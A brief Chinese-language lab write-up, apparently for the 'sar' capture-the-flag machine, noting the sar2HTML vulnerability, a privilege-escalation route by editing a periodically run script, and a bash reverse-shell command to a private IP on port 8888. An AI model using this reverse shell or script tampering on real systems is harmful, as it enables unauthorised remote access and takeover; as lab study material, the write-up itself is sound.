


# sar

## 内容

1.[robots.txt](https://zhuanlan.zhihu.com/p/65463520)  
2.使用反弹shell时，如果是`sh`,出现问题`bash`则没有问题

```bash
bash -i >& /dev/tcp/192.168.205.138/8888 0>&1
/bin/sh: 3: Syntax error: Bad fd number
```

3.可以使用burpsuite进行解码url,防止转义问题
  
4.[linux用户权限](https://blog.csdn.net/lv8549510/article/details/85406215)

## 思路

1.sar2HTML漏洞  
2.修改write.sh内容

得知finally.sh周期性执行
